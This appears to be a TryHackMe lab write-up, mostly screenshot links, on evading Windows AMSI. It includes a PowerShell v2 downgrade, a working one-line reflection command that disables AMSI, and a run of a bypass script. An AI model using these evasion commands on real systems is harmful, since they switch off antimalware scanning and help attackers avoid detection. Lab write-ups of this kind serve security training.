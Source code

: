 # Room Information

# Room Tasks

## PowerShell Downgrade

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt0.png)

```PowerShell
C:\Users\THM-Attacker>PowerShell -Version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt2.png)

## PowerShell Reflection

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt1.png)

```PowerShell
PS C:\Users\THM-Attacker> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt3.png)

## Patching AMSI

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt1.png)

```PowerShell
C:\Users\THM-Attacker>cd Desktop
```

```PowerShell
C:\Users\THM-Attacker\Desktop>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```

```PowerShell
PS C:\Users\THM-Attacker\Desktop> .\bypass.ps1
True
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt3.png)
